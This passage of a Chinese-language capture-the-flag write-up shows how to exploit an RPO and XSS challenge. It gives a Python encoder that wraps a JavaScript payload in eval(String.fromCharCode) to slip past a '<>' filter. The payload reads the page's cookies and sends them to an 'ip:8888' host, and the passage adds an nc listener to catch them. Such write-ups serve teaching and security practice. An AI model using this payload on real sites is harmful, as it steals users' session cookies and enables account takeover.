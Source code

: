     <img src="/images/posts/qwb/19.png" height="60%" />  
</div>
&emsp;&emsp;但这道题的点不在这，我们回到`RPO`的利用中来，因为过滤了`<>`，所以我们用`eval(String.fromCharCode(xxx))`来绕过，所以payload：
```python
s="""var i=document.createElement("iframe");
i.src="/";
i.id="a";
document.body.appendChild(i);
i.onload = function (){
    var c=document.getElementById('a').contentWindow.document.cookie;
    location.href="http://ip:8888?xx="+c;
}"""

print "eval(String.fromCharCode(",
for i in s:
    print str(ord(i))+",",

print "))",
```
&emsp;&emsp;我们把它插入到`write article`里，然后获取到它的`url`，如：
<div align="center">
    <img src="/images/posts/qwb/20.png" />  
</div>
&emsp;&emsp;服务器端启动监听：`nc -tlp 8888`。

